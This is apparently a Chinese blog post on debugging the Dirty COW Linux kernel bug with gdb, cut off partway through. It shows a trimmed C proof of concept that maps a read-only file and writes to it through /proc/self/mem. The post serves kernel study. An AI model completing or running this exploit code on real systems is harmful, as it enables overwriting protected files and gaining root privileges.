 ```yaml
---
title: 源码调试脏牛运行过程
description: 用gdb和查看源码学习脏牛
date: 2021-11-24 13:29:22
categories:
 - Kernel
---
```


# 源码调试脏牛运行过程

## 调试代码

把POC阉割一下好调试

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct stat st;
int f;
void *map;
char *name;

void *procselfmemThread(void *arg);

int main(int argc, char const *argv[])
{
	if(argc < 3)
	{
		(void)fprintf(stderr, "%s\n", "usage: dirtycow target_file new_content");
		return 1;
	}
	pthread_t pth1,pth2;

	f = open(argv[1], O_RDONLY);
	fstat(f, &st);
	name = argv[1];

	map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
	printf("mmap %zx\n", (uintptr_t)map);
	getchar();//为了调试
	procselfmemThread(argv[2]);

	close(f);

	return 0;
}

void *procselfmemThread(void *arg)
{
	char *str;
	str = (char *)arg;

	int f = open("/proc/self/mem", O_RDWR);
	int i = 0;
```